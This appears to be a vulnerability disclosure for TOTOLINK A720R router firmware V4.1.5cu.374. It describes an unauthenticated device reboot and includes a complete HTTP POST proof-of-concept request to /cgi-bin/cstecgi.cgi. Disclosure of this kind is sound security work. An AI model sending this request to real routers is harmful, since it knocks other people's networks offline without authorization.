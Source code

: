 # Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/203/ids/36.html

# Affected version

V4.1.5cu.374

# Vulnerability details

The TOTOLINK A720R V4.1.5cu.374 firmware contains an unauthorized reboot device vulnerability. This vulnerability occurs when a POST request is sent to the `/cgi-bin/cstecgi.cgi` with the parameter `{"topicurl":"RebootSystem"}`, allowing an attacker to reboot the device without authentication.

# Poc

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.140.79
Content-Length: 27
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.140.79
Referer: http://192.168.140.79/basic/index.html?time=1745238634622
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive

{"topicurl":"RebootSystem"}
```

![图 0](img/901d93474171660a98fecf144fb293e77c83a3f89f90e198b36a3034457fd0c3.png)  

![图 1](img/6ab9de41805a97e7e08603bc10c26b2a9387607933ed8e92466d32b9c9a7c9b4.png)  
